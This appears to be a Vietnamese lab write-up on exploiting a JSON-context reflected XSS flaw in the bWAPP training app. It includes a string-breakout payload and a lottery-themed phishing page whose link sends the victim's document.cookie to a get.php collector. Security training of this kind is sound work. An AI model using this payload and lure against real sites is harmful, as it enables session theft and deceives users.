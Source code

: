 ### Xác định lỗi XSS

![image](https://github.com/user-attachments/assets/05cd7500-bd2b-431c-a6a4-a21673b70295)

Thử nhập họ tên vào ô tìm kiếm ta thấy nó trả về tên ta nhập

![image](https://github.com/user-attachments/assets/19b1795e-3b9d-41ed-a3d6-60b0b9161109)

Chèn thử dòng js vào để check XSS và thấy nó trả về kết quả rất kì lạ

![image](https://github.com/user-attachments/assets/e5fc5be5-11ab-485e-bf0c-d9dd6586fb5b)

Nhập tên bất kì rồi View source, ta chú ý đến dòng chưa dữ liệu vừa nhập

![image](https://github.com/user-attachments/assets/6c545d31-ea44-440f-97ed-026b0e45bc04)

Lí do đoạn js trước đó không chạy là do đầu vào đang nằm sẵn trong một đoạn js

>var JSONResponseString = '{"movies":[{"response":"check here??? Sorry, we don&#039;t have that movie :("}]}';

Đoạn Js này được kết thúc bởi ` "}]}';`

Giờ ta cần đóng đoạn js đó lại và truyền một js khác vào ` "}]}';alert("Hacked by Thiep")</script>`

![image](https://github.com/user-attachments/assets/5d2ccb24-4da6-4fb2-97de-c69fdfdac90a)

--> Xác định web dính XSS

### Khai thác

Dùng file get.php như case XSS get mức Low

Source phishing:

``` html
<html>
<head>
<title>Lottery hihi</title>
</head>
<body>
	<h1 align="center">CONGRATULATIONS!!!</h1>
	<h1 align="center">YOU WON!!!</h1>
	Click this <a href="http://localhost/bwapp/xss_json.php?title=}]}';window.open%28%22http%3A%2F%2Flocalhost%2Fget.php%3Fcookie%3D%22%2Bdocument.cookie%29<%2Fscript>&action=search">link</a> to see your prize
</body>
</html>
```
